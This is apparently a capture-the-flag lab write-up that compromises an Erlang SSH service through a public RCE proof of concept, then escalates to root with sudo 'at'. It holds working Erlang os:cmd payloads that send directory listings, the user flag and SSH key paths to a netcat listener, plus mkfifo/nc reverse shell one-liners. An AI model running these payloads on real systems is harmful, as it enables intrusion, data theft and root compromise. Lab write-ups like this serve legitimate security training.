 `nmap -A -T4 -p- 10.129.232.1`

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-23 13:28 EDT
Nmap scan report for 10.129.232.1
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://powerlang.htb/
|_http-server-header: Apache/2.4.58 (Ubuntu)
2222/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Erlang/5.2.9
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.95%I=7%D=5/23%Time=6830B056%P=x86_64-pc-linux-gnu%r(NU
SF:LL,16,"SSH-2\.0-Erlang/5\.2\.9\r\n");
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: Host: 127.0.1.1
```

Update host files and start enumerating.

![](Images/Pasted%20image%2020250523133158.png)

Erlang is vulnerable to an RCE which can be found [here](https://github.com/ProDefense/CVE-2025-32433)

We had to make some adjustments to the POC after running it once and not getting a shell.

![](Images/Pasted%20image%2020250523135250.png)

Update our Target IP and port and then we can adjust our payload to be a simple reverse shell (I had ran the test once which could've created lab.txt)

![](Images/Pasted%20image%2020250523135310.png)

Setup a listener on 4444 and catch the shell after running the POC.

![](Images/Pasted%20image%2020250523135534.png)

![](Images/Pasted%20image%2020250523135542.png)

So it doesn't appear to be an interactive shell but a ways to enumerate. So we can read local files this way.

We can change out payload to be to list out local directories for enumeration.

```
command='os:cmd("dir | nc 10.10.14.21 4444").'
```

![](Images/Pasted%20image%2020250523135836.png)

Lets read the user flag next.
```
command='os:cmd("cat user.txt | nc 10.10.14.21 4444").'
```

![](Images/Pasted%20image%2020250523135909.png)

Next we can grab look into the SSH key directory and find the keys used for SSH

```
command='os:cmd("dir ssh_system | nc 10.10.14.21 4444").'
```

![](Images/Pasted%20image%2020250523140020.png)

We will grab the `ssh_host_rsa_key` next in order to establish a session hopefully.

![](Images/Pasted%20image%2020250523140224.png)

After getting the key it still requires a username to pass lets see if we can enumerate the directory further to find a user.

![](Images/Pasted%20image%2020250523140434.png)

After sending a pwd it appears we are the user it-operator lets try and use that with the key.

![](Images/Pasted%20image%2020250523140549.png)

Still requires a password....

Some further enumeration shows us that SSH is basically not allowed via standard authentication

![](Images/Pasted%20image%2020250523141253.png)

Since I can't SSH I will try and get a shell rather than manually enumerating files.

```
command='os:cmd("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.21 4444 > /tmp/f").'
```

Gets us a shell

![](Images/Pasted%20image%2020250523141726.png)

![](Images/Pasted%20image%2020250523141735.png)

Looks like quick escalation via Sudo binary [here](https://gtfobins.github.io/gtfobins/at/)

Since we have no TTY it appears to break our shell so I will try and execute the binary as root when generating the initial shell.

```
command = 'os:cmd("echo \'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.21 4444 > /tmp/f\' | sudo at now").'
```

Which gets us a root shell

![](Images/Pasted%20image%2020250523142141.png)

![](Images/Pasted%20image%2020250523142157.png)


